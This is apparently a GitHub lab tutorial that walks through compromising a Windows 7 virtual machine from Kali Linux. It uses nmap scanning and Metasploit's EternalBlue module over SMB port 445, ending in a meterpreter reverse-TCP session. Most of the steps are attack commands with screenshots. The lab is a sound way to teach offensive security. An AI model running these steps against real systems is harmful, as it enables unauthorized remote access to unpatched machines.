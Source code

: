 # Hacking Windows-7 OS with eternal-blue through port 445 #



## Operating Systems ##
- [Window 7 OS](https://www.softlay.com/downloads/windows-7-ultimate) (Target)
- [Kali Linux OS](https://www.kali.org/get-kali/#kali-platforms) (Attacker)



## Tools ##
- [Nmap](https://nmap.org/)
- [Metasploit](https://www.metasploit.com/)



## Intro ##
<p align="justify">To complete this lab, you will require Kali Linux as the attacker system and Windows 7 as the target system. I have provided links above where you can download the necessary operating systems and tools. If you're unsure about how to install Kali Linux or Windows 7 as virtual machines, or if you encounter any issues with the tools, you can refer to the guides available on the following websites that I will describe below.</p>

- [Installing Kali Linux in Virtual Box](https://www.youtube.com/watch?v=MPkni85O9JA)
- [Installing Windows 7 in Virtual Box](https://www.youtube.com/watch?v=qc3tatME9k4)
- [Installing Nmap in Kali Linux](https://www.youtube.com/watch?v=UztKA63rmL0)



### Step 1 ###
<p align="justify">After obtaining both Kali Linux and Windows 7, it is necessary to configure their network settings to be on the same network.</p>



### Step 2 ###
<p align="justify">In step two, you must disable the Windows 7 firewall to access the target system. Without disabling the firewall, the ports required for access will remain closed.</p>
<p align="justify"></p>

1. Click Control Panel from the search results.
1. Select System and Security.
1. Click Windows Defender Firewall.
1. Click the Turn Windows Defender Firewall on or off option.
1. Click the Turn off Windows Defender Firewall

![Firewall Off](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/2da2842c-b88b-4718-a795-d57290a00010)



### Step 3 (Ping) ###
<p align="justify">Before we begin exploiting, it's important to ensure that both systems are connected or in the same network. </p>

```
ping [TARGET IP]
```

![ping](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/6b04ea71-1682-44bc-840c-4e08d07126b0)



### Step 4 (Scanning) ###
<p align="justify">If the target system is on our network, we can scan its open ports using its IP address. I use Nmap for vulnerability scanning.</p>

- -A : For all types of scans, such as OS detection, version of services detection, and traceroute.

```
nmap -A -Pn [TARGET IP]
```

If you're looking to learn the basics of Namp, you can find them [here](https://www.youtube.com/watch?v=5MTZdN9TEO4).

![nmap](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/bd2950a8-1882-4651-84f6-78eb3eea345e)



### Step 5 (Metasploit) ###
<p align="justify">After the scanning process, you will notice that several ports are opening. It is important to pay attention to Port 445, which is also known as the server message block (SMB). This port enables devices on the same network to communicate with each other and share files or other resources. By exploiting the vulnerability of this service, we can gain access to the target system. Therefore, we will use Metasploit for this purpose. We can use EternalBlue if there is a vulnerability of port 445 on a Windows.</p>

```
msfconsole
```

<p align="justify">Next, look for the Eternal-Blue and use it.</p>

```
search eternalblue
```

```
use 0
```

![Msfconsole](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/a53895bf-addc-4ff5-8946-5617cdced1ef)



### Step 6 (Payload) ###
<p align="justify">Now we need to set the payload, but it's not necessary for this exploit. We can use it or not, depending on our preference.</p>

```
set payload window/x64/meterpreter/reverse_tcp
```

![payload](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/81c37fbc-e687-46ad-ba12-093d07f08ff5)



### Step 7 (Options) ###
<p align="justify">We need to consult the available options to determine what modifications are necessary.</p>

```
show options
```

![options](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/a4cdc84f-16c8-4f69-8880-7970944c16d2)



### Step 8 (Getting Access) ###
<p align="justify">In options, RHOSTS refers to the IP address of the target system, and RPORT refers to the vulnerable port we are going to exploit on the target. RPORT has already been added. We only need to add the target's IP in RHOSTS.</p>

```
set rhosts [TARGET IP]
```

Then,

```
run
```

![run](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/0fe9b253-5713-4d8b-830f-3041fb3fc5f0)



### Result ###
<p align="justify">After a few seconds of waiting, we were able to access the target system. We can request help to determine our next steps.</p>

```
help
```

![help](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/7519d863-d454-4657-ac32-1d69ae72fd50)

<br>

<p align="justify">There are many options that we can do in the meterpreter session. For example, we can type ipconfig or ifconfig to see the network config setting of the system.</p>

```
ipconfig
```

Or,

```
ifconfig
```

![ipconfig](https://github.com/pyaephonehan21/Ethical-Hacking/assets/156397261/1d8fcb95-2875-4078-97bc-a4e86d450ff1)

### Practice sessions have come to an end.  I hope you enjoyed them. See you next Sunday for our next session ###
